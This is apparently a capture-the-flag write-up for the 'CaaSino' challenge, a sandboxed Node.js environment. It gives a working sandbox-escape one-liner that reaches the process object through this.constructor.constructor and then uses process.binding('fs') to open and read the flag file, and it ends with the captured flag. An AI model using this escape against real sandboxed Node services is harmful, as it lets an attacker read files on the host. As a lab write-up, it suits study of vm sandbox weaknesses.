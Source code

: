# CaaSino

Sandboxed NodeJS environment

We figured out we could use this.constructor.constructor\("return this.process"\)\(\) to run more arbritrary JS, but the require function was disabled.

However, we could use this.process.bindings to import the original C++ functions. With some reference to [https://gist.github.com/phra/51f73898df729789aff741c6ea91d294](https://gist.github.com/phra/51f73898df729789aff741c6ea91d294) and the node JS source code, I came up with:

`this.constructor.constructor("b = Buffer.allocUnsafe(8192);this.process.binding('fs').read(this.process.binding('fs').open('/ctf/flag.txt', 0, 0600, 0, 0), b, 0, 4096, 0, 0, 0); return b")().toString()`

* Define a buffer of size 8192
* Call read\(\) on a file descriptor provided by open\('/ctf/flag.txt'\) in readonly, and read that into the buffer, then return

The zeros are where the docs specified 'undefined' and 'ctf' and luckily this didn't matter. We get the flag\(and a bunch of junk\)

## Flag:flag{vm\_1snt\_s4f3\_4ft3r\_41l\_29ka5sqD}

